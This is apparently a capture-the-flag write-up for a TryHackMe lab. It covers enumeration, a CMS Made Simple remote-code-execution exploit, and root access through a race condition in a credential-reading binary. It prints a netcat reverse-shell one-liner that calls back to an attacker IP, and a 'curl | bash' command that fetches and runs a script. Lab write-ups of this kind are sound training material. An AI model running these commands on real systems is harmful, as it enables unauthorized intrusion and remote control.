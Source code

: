 # 55 - toc2 (race condition exploitation)

Room Link --> [https://tryhackme.com/dashboard](https://tryhackme.com/dashboard)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ nmap -Pn -n -v 10.10.136.233 -p- -T5

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

On the website main page, there is a note:

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`cmsmsuser:devpass`  - the dev left his credentials there.

The `robots.txt` page.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Searched online for an exploit and got [this](https://www.exploit-db.com/exploits/44192)

#### Exploitation

Proceed as stated in the exploit POC, when we get to step 4, we intercept the traffic with burpsuite and modify the `timezone` parameter.

The dbmane is also on the `robots.txt` page.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And done, we goto the path:

`http://10.10.136.233/cmsms/config.php?cmd=id;uname` - we have RCE.



<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Getting reverse shell, i used

‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f’, save it in a \`shell.sh\` file, then \`curl [http://10.18.88.214/shell.sh](http://10.18.88.214/shell.sh) | bash\` on the cmd paprameter.

<figure><img src=".gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Frank

There is a `new_machine.txt` file in Frank home directory. It contained a password, so i tried it for Frank and it worked.

### Priv Esc to Root

There is a `readcreds.c` file that seems to be vulnerable to `Race Condition` attack.

{% code overflow="wrap" lineNumbers="true" %}
```c
frank@toc:~/root_access$ ./readcreds readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);
}
```
{% endcode %}

WATCH this video if you are not familiar with race conditions

[https://www.youtube.com/watch?v=5g137gsB9Wk](https://www.youtube.com/watch?v=5g137gsB9Wk)

Download the `rename.c`  binary used for the exploitation: https://github.com/sroettger/35c3ctf\_chals/blob/master/logrotate/exploit/rename.c

You’ll need to compile this C file first.

Create a blank file to use as one of these two arguments. I just `touch asd` , and execute it with `root_password_backup` as an argument `./rename root_password_backup asd` _._ You will see the terminal hang… this is normal.

We can now ssh as Frank in another terminal or background the process. let’s try to run the _readcreds_ binary with our file we want to read. At first we may not be able to open, but keep pounding up and enter until eventually we hit our permissions and cat the file.

<figure><img src=".gitbook/assets/image (386).png" alt=""><figcaption></figcaption></figure>

`su root`&#x20;

Done!


